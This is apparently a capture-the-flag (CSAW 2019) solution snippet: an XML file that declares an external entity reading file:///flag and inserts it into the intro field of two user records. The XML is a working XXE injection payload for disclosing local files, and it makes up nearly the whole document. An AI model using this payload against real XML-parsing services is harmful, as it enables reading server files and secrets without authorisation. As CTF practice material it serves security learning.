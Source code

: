 ```xml
<?xml version='1.0'?>
<!DOCTYPE users [
<!ENTITY xxe SYSTEM "file:///flag" >]>
<users>
    <user>
        <username>gg</username>
        <password>passwd1</password>
        <name>ggg</name>
        <email>alice@fakesite.com</email>  
        <group>CSAW2019</group>
        <intro>&xxe;</intro>
    </user>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>  
        <group>CSAW2019</group>
        <intro>&xxe;</intro>
    </user>
</users>

```

